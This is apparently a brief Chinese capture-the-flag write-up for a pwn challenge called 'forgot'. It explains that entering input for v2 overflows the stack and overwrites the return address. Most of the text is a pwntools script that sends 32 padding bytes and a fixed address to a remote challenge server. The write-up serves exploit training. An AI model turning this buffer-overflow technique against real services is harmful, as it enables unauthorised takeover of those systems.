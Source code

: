 # forgot

这题的程序看起来非常复杂，其实可以省去很多的操作，只需要在输入v2的时候栈溢出覆盖返回地址即可

```python
from pwn import *

context.log_level = 'debug'
#n = process('./forgot')
n = remote('111.198.29.45',35834)
elf = ELF('./forgot')

offset = 0x20
n.recvuntil('> ')
n.sendline('A')
n.recvuntil('> ')
n.sendline('A' * 32 + p32(0x080486CC))
print(n.recvall())

```

